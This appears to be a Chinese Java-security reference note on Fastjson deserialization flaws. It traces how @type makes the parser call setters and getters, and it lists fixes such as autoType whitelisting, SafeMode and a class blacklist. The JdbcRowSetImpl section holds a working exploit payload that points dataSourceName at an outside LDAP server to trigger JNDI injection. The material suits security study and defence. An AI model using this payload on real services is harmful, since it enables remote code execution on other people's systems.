# 16 · 组件 · Fastjson 反序列化

> 查阅区 · **只查不读**，不进学习路径。原文拆自 `JAVA安全-全本`，正文一字未改，仅调标题层级与图片相对路径。
> 什么时候翻：组件卡三步：版本 → AutoType 状态 → @type 可控入口

## Fastjson反序列化

### 调用流程

重写了很多`parse`或`parseObject`方法



使用`parseObject`进行JSON反序列化



不管调用哪个方法最终都会进入`DefaultJSONParser`






然后会从反序列化Json字节码转为加载指定的Java类，此处的key=@type，value为指定的Java类



调用反序列化解析器



- 默认有自带的解析器

  

- 但是因为加载的是自定义的Java类，并未预先注册，所以为该类创建专用的`JavaBeanDeserializer`



创建`JavaBean`通过反射分析目标类的成员，这里的漏洞点就是获得变量field以及其setter和getter方法



- 其中会调用`setter`和`getter`方法

  

  - 调用setter的条件

    

    

  - 调用getter的条件

    

  - 并且会将遍历出的setter或getter添加进`fieldList`，有setter的变量优先放入，此后的getter不放入
  
    
  
    

因为FastJson的ASM优化会将反序列化的具体细节分装在动态生成的字节码类中，导致无法了解调试细节，所以为了继续调试需要将asmEnable设置false。

- 以下仅是为了能够看到调试细节与漏洞原理无关

  - 创建一个新的变量只有getter

  

  - 使getOnly为true，这里的if判断方法是否是setter

  

  - 使asmEnable为false

  

  - 进入具体的反序列化流程

  

#### setter调用流程

- 首先创建类实例

  

- 调用setter赋值

  

  - 在`setValue`中调用invoke执行

    

- 最后会返回赋的值

  

#### getter调用流程

将获得的Java对象转换为JSON是会调用方法



- 然后在JSON中调用`getFieldValuesMap`

  

  - 继续跟进

    

  - 最后在get在调用getter

    

### 漏洞原理总结

1. `@type`指定**任意**恶意类
2. `JavaBeanInfo`解析类结构（未过滤危险的**setter**或getter）
3. `JavaBeanDeserializer`反序列化
4. 恶意方法执行

Fastjson通过提取恶意的setter和getter方法并放入fieldList导致在后面反序列化时自动调用了这些方法导致命令执行

**修复方法**

- `Fastjson`无条件信任`JavaBeanInfo`解析的类结构，所以要在此之前阻止恶意类的加载
  - **autoType**白名单，在`checkAutoType()`阶段拦截非信任类，使其无法进入`JavaBeanInfo`构建流程。
  - **SafeMode**，禁用@type使之无法指定恶意类加载，仅允许加载已注册的安全的类

### 基于 JdbcRowSetImpl 的利用链

版本限制在**Fastjson 1.2.24**，然后因为本质是利用了JNDI注入所以需要**出网**

在`JdbcRowSetImpl`中有lookup方法可以解析JNDI的服务地址



而`DataSourceName`是可以通过Fastjson控制的，因为其有满足条件的setter



所以接下来就是要找到可以控制coonect()的方法，这里找到`setAutoCommit`，这里还有另外一个getter，但是优先选择setter，因为到触发getter的`toJSON()`前有更多的条件判断



EXP如下

```java
package Fastjson;

import com.alibaba.fastjson.JSON;

public class JdbcRowSetImplExp {
    public static void main(String[] args) {
        String payload = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://192.168.13.1:1389/aenhsl\", \"autoCommit\":false}";
        JSON.parseObject(payload);
    }
}
```

先调用setDataSourceName赋值远程服务地址，在调用setAutoCommit触发`connect()`，然后触发`connect.lookup()`，ldap地址通过`JNDI-Injection-Exploit`生成

### 高版本绕过

#### 修复原理

`DefaultJSONParser.parseObject`原本是直接通过`TypeUtils.loadClass`加载Java对象，现在改为了`checkAutoType`过滤类，其中`autoTypeSupport`默认关闭



然后过滤类中有两种过滤方式

黑名单过滤的类

```java
bsh
com.mchange
com.sun.
java.lang.Thread
java.net.Socket
java.rmi
javax.xml
org.apache.bcel
org.apache.commons.beanutils
org.apache.commons.collections.Transformer
org.apache.commons.collections.functors
org.apache.commons.collections4.comparators
org.apache.commons.fileupload
org.apache.myfaces.context.servlet
org.apache.tomcat
org.apache.wicket.util
org.codehaus.groovy.runtime
org.hibernate
